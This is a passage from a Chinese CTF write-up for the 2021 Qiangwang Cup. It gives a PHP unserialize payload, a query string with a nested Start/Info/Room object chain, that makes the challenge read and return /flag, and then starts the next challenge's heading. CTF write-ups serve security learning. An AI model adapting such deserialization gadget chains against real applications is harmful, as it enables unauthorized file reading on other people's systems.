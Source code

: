 将上面生成的序列化字符串，传入hello，即可得hi+flag的base64编码，解码即可得flag

```
/?hello=O:5:"Start":2:{s:4:"name";O:4:"Info":2:{s:7:"promise";s:4:"Ido";s:4:"file";a:1:{s:8:"filename";O:4:"Room":3:{s:8:"filename";s:5:"/flag";s:10:"sth_to_set";N;s:1:"a";O:4:"Room":3:{s:8:"filename";s:5:"/flag";s:10:"sth_to_set";N;s:1:"a";s:0:"";}}}}s:4:"flag";s:0:"";}
```

![2021第五届强网杯全国网络安全挑战赛线上赛 Write-Up](img/79cc529a7677ce24fc4c86d6924493a8.png)

![2021第五届强网杯全国网络安全挑战赛线上赛 Write-Up](img/c8c5c91c687767fc42ddd2c37ab124bb.png)

## **[强网先锋]寻宝**

![在这里插入图片描述](img/a606886e87e419b5651026abbed565b3.png)
